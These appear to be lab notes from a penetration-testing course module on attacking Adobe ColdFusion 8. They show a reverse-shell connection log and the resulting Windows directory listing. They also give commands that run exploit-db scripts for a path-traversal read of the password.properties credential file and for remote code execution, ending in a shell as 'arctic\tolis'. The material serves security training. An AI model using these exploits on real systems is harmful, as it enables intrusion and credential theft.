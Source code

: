 ```shell-session
Ncat: Connection from 10.129.247.30:49866.
```

**Reverse Shell**

Attacking ColdFusion

```cmd-session
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 5C03-76A8

 Directory of C:\ColdFusion8\runtime\bin

22/03/2017  08:53 ��    <DIR>          .
22/03/2017  08:53 ��    <DIR>          ..
18/03/2008  11:11 ��            64.512 java2wsdl.exe
19/01/2008  09:59 ��         2.629.632 jikes.exe
18/03/2008  11:11 ��            64.512 jrun.exe
18/03/2008  11:11 ��            71.680 jrunsvc.exe
18/03/2008  11:11 ��             5.120 jrunsvcmsg.dll
18/03/2008  11:11 ��            64.512 jspc.exe
22/03/2017  08:53 ��             1.804 jvm.config
18/03/2008  11:11 ��            64.512 migrate.exe
18/03/2008  11:11 ��            34.816 portscan.dll
18/03/2008  11:11 ��            64.512 sniffer.exe
18/03/2008  11:11 ��            78.848 WindowsLogin.dll
18/03/2008  11:11 ��            64.512 wsconfig.exe
22/03/2017  08:53 ��             1.013 wsconfig_jvm.config
18/03/2008  11:11 ��            64.512 wsdl2java.exe
18/03/2008  11:11 ��            64.512 xmlscript.exe
              15 File(s)      3.339.009 bytes
               2 Dir(s)   1.432.776.704 bytes free
```

**Questions**

What user is ColdFusion running as?

```bash
#http://10.129.37.129:8500/CFIDE/administrator/ (Adobe ColdFusion 8)
cp /usr/share/exploitdb/exploits/multiple/remote/14641.py .
python2 14641.py 10.129.37.129 8500 "../../../../../../../../ColdFusion8/lib/password.properties"
#or we can try RCE
cp /usr/share/exploitdb/exploits/cfm/webapps/50057.py .
#edit the ip & port
python3 50057.py 
#got it
whoami
arctic\tolis
```
